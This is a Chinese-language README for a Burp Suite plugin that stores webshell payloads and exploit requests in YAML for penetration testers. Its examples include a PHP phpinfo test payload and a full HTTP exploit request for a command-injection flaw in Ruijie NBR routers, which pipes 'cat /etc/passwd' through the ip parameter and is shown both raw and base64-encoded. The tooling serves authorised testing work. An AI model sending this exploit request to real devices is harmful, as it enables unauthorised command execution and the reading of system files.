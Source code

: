 ## 哆啦A梦-渗透辅助小工具

### 前言

1、在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 中插入内容就简单多了。

2、在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了。



### 使用

1、加载插件会在 **Burpsuite 目录下新建了一个目录和二个文件**

2、**使用 sublime text 来修改 exp.yaml 和 payload.yaml** （**yaml 语法**）

```
DAM_Config:
|_exp.yaml
|_payload.yaml
```

### 更新日志
1.0.2 版本添加了一个 GUI 方便查看 漏洞 和 Payload

![3](./images/3.png)

也可以单独运行，其他功能还没写

![4](./images/4.png)


### 已知BUG

第三层不能同名，这样通过 JSP 获取内容就会出错，只会获取到最后一个 冰蝎3 的 JSP

```yaml
WebShell:
  哥斯拉:
    JSP:
      dGVzdA==
  冰蝎3:
    JSP:
      MTIz
```

建议修改为

```yaml
WebShell:
  哥斯拉:
    哥斯拉-JSP:
      dGVzdA==
  冰蝎3:
    冰蝎3-JSP:
      MTIz
```

这样就可以获取到相对的内容。




#### payload.yaml 文件：演示

该文件是把 **Payload 插入到 数据包 中** （在文件上传的时候快速插入webshell，不用再生成或者翻文件来复制粘贴了）

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

```
WebShell:
  蚁剑:
    PHP:
      PD9waHAgcGhwaW5mbygpOz8+
```

![2](./images/2.png)



#### exp.yaml 文件：演示

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

编写 exp.yaml（**yaml 语法**）

```
设备漏洞:
  锐捷漏洞:
    锐捷NBR路由器-前台RCE:
      UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

![1](./images/1.png)

### 参考

https://github.com/d3vilbug/HackBar
